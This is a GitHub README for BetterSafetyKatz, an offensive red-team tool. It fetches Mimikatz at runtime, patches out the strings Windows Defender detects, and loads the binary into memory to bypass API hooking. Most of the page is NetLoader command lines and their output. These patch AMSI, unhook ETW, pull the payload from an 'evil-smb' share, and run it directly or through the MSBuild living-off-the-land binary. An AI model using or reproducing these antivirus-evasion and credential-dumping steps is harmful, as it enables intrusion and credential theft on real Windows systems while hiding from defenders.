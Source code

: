 # BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses SharpSploit DInvoke to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Used https://github.com/matterpreter/DefenderCheck to gather signatures detected)
3. PE-Loaded into mem using SharpSploit 1.6 DInvoke, bypassing API hooking.(https://thewover.github.io/Dynamic-Invoke/)

Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.

## Detected?

BetterSafetyKatz can be deployed using [NetLoader](https://github.com/Flangvik/NetLoader), this will bypass common AV solutions such as Windows Defender.

	PS D:\Projects\NetLoader> .\NetLoader.exe --path //evil-smb/bins/BetterSafetyKatz.exe --args coffee
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] Successfully unhooked ETW!
	[+] URL/PATH : //evil-smb/bins/BetterSafetyKatz.exe
	[+] Arguments : coffee
	[+] Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory

	  .#####.   022PO6WM 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "2HREDZLQ6LC4KWE48WS" - (J888K)
	 ## / \ ##  /*** SX6HATY8UCZTFP `3I6B0MYQ03` ( 66OC8VHW@3I6B0MYQ03.com )
	 ## \ / ##       > http://blog.3I6B0MYQ03.com/022PO6WM
	 '## v ##'       KVY3O5BG9LH90CH             ( EWGZ4I5Z22719E0QZJTNFIJF )
	  '#####'        > VOIN6NBQ5J7P55TZBTT4H / WXFFZUHZ5JPERL93VZ3VC1W   ***/

	022PO6WM # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	022PO6WM #
	
Or via the NetLoader MSBuild LOLBIN

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml
	[!] ~Flangvik , ~Arno0x #NetLoader
	[?] Input X in any field to exit!
	[?] Is all input base64 encoded ? y/n -> n
	[?] Input path or url -> //evil-smb/bins/BetterSafetyKatz.exe
	[?] Is the payload data XOR encrypted ? y/n -> n
	[?] Input payload args (optional) -> coffee
	[+] Successfully patched AMSI!
	[+] Successfully unhooked ETW!
	[+] URL/PATH : //evil-smb/bins/BetterSafetyKatz.exe
	[+] Arguments : coffee
	[+] Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory

	  .#####.   022PO6WM 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "2HREDZLQ6LC4KWE48WS" - (J888K)
	 ## / \ ##  /*** SX6HATY8UCZTFP `3I6B0MYQ03` ( 66OC8VHW@3I6B0MYQ03.com )
	 ## \ / ##       > http://blog.3I6B0MYQ03.com/022PO6WM
	 '## v ##'       KVY3O5BG9LH90CH             ( EWGZ4I5Z22719E0QZJTNFIJF )
	  '#####'        > VOIN6NBQ5J7P55TZBTT4H / WXFFZUHZ5JPERL93VZ3VC1W   ***/

	022PO6WM # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	022PO6WM #
	

